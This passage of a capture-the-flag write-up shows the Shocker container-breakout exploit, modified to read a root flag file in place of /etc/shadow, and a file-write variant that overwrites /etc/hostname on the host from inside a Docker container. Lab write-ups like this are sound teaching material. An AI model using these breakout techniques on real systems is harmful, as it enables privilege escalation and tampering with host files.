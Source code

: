 I'll go back into the source, and on line 169, update the file it reads
from `/etc/shadow` to `/root/root.txt`:



            if (find_handle(fd1, "/root/root.txt", &root_h, &h) <= 0)
                    die("[-] Cannot find valid handle!");



On recompiling and re-uploading, it returns the flag:



    root@c150397ccd63:~# ./so                           
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [*] Resolving 'root/root.txt'
    ...[snip]...
    [!] Win! /etc/shadow output follows:
    c8c243c5************************



### Shocker File Write

#### POC

There's some ability to write files using Shocker, though I can't fully
explain what's required. HackTricks has a
[version](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override)
that will write files on the host as well! It says that
`cap_dac_override` is required for this to work, but it clearly does
work on Talkative and that capability isn't present.

I'll upload the compiled writing version and run it, giving two files:



    root@c150397ccd63:~# echo a  > a
    root@c150397ccd63:~# ./sw /etc/hostname a



I can verify that the `/etc/hostname` file on the host is overwritten
from my shell as saul:



    saul@talkative:/dev/shm$ cat /etc/hostname 
    a
    lkative



Only the first two bytes of the original file are overwritten, which is
the size of the file I used.
